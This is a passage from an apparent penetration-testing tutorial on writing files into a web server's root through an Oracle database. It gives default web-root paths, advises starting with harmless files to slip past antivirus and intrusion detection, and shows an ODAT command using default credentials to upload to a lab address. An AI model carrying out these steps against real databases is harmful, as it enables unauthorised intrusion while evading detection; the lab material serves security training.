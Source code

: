 | **OS** | **Path** |
| --- | --- |
| Linux | `/var/www/html` |
| Windows | `C:\inetpub\wwwroot` |

First, trying our exploitation approach with files that do not look 
dangerous for Antivirus or Intrusion detection/prevention systems is 
always important. Therefore, we create a text file with a string and use
 it to upload to the target system.

### **Oracle RDBMS - File Upload**

```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

#Testing
curl -X GET http://10.129.204.235/testing.txt

```
